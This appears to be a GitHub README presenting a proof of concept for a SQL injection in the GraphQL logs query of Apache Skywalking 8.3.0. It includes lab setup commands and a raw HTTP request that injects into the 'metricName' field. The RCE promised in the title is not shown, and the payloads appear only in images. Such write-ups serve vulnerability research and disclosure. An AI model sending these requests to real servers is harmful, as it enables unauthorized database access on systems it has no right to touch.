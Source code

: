 # POC_Apache_Skywalking-8.3.0_SQL_Injection_to_RCE
Application performance monitor tool for distributed systems, especially designed for microservices, cloud native and container-based (Docker, Kubernetes, Mesos) architectures.

In GraphQL interfaces of Apache Skywalking 8.3.0 and previous, there is a H2 Database SQL injection vulnerability.

# Vulnerability environment
Let's install Apache Skywalking 8.3.0 using the following commands.<br>
# Prerequisites
Java Development Kit (JDK): Apache Skywalking requires Java to run. Make sure you have Java 8 or later installed on your system
```bash
sudo apt update && sudo apt install openjdk-11-jdk -y
```
Set Environment Variables
```bash 
export JAVA_HOME=/usr/lib/jvm/java-11-openjdk-amd64
```
# Download Apache Skywalking 8.3.0
```bash
wget https://archive.apache.org/dist/skywalking/8.3.0/apache-skywalking-apm-8.3.0.tar.gz
```
Extract the downloaded archive
```bash
tar -zxvf apache-skywalking-apm-8.3.0.tar.gz
```
Start Apache Skywalking
```bash
cd apache-skywalking-apm-bin/bin
./startup.sh
```
After the environment is started, visit http://your-ip:8080 to view the Skywalking page.
# POC
The HTTP request of this GraphQL query is
```bash
POST /graphql HTTP/1.1
Host: 192.168.1.12:8080
Content-Length: 405
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.88 Safari/537.36
Content-Type: application/json;charset=UTF-8
Origin: http://192.168.1.12:8080
Referer: http://192.168.1.12:8080/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close

{
    "query":"query queryLogs($condition: LogQueryCondition) {
  queryLogs(condition: $condition) {
    total
    logs {
      serviceId
      serviceName
      isError
      content
    }
  }
}
",
    "variables":{
        "condition":{
            "metricName":"sqli",
            "state":"ALL",
            "paging":{
                "pageSize":10
            }
        }
    }
}
```
I using BurpSuite to send the following GraphQL query below
![Alt Text](https://github.com/NeedMor3Coffee/POC_Apache_Skywalking-8.3.0_SQL_Injection_Vulnerability_to_RCE/blob/main/graphql_exploit.jpg)
It can be seen that the SQL statement has raised error, and the value of the metricName parameter has been injected ​​after from.
![Alt Text](https://github.com/NeedMor3Coffee/POC_Apache_Skywalking-8.3.0_SQL_Injection_Vulnerability_to_RCE/blob/main/error.jpg) <br>
This can lead to SQL_Injection attack by injecting SQL as follows:
![Alt Text](https://github.com/NeedMor3Coffee/POC_Apache_Skywalking-8.3.0_SQL_Injection_Vulnerability_to_RCE/blob/main/sql_injection1.png)

# References:
https://youtu.be/CtkhTjB95Z0












